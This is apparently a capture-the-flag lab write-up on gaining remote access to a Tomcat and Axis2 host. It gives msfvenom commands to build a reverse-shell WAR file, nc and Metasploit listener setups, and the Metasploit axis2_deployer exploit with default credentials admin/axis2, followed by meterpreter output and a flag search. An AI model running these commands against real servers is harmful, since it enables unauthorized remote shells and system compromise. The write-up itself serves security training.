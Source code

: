 # cd699a_remote_exploitaion_1

Once we have access to a Tomcat server, we can exploit the host by uploading a malicious WAR file.

## the first solution
use msfvenom to generate a malicious WAR file.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.7 LPORT=4444 -f war -o revshell.war
```

In our kali machine, we can start a nc listener.
```
nc -lvp 4444
```

Or in our kali machine, we can use metasploit to start a listener.
```
use exploit/multi/handler
set payload generic/shell_reverse_tcp
set LHOST 192.168.0.7
set LPORT 4444
exploit
```

## the second solution

use metasploit to attack axis2 

```
use exploit/multi/http/axis2_deployer
set RHOST 10.0.3.197
set RPORT 8282
set USERNAME admin
set PASSWORD axis2
set LHOST 192.168.0.7 
set LPORT 4444
makerc axis2.rc  # will dump all the commands you have entered to a file; The file can then be executed using the command resource.
expoit

meterpreter > sysinfo
meterpreter > shell
C:\>dir /s *flag{cd699* 
dir /s *flag{cd699* 
 Volume in drive C has no label.
 Volume Serial Number is 663E-AFDF

 Directory of C:\Windows\System32

10/06/2023  01:26 AM            97,449 flag{cd699af2578185e69fe13fb2ae009b4ac8a0c91f5fc5ec}.jpg
```

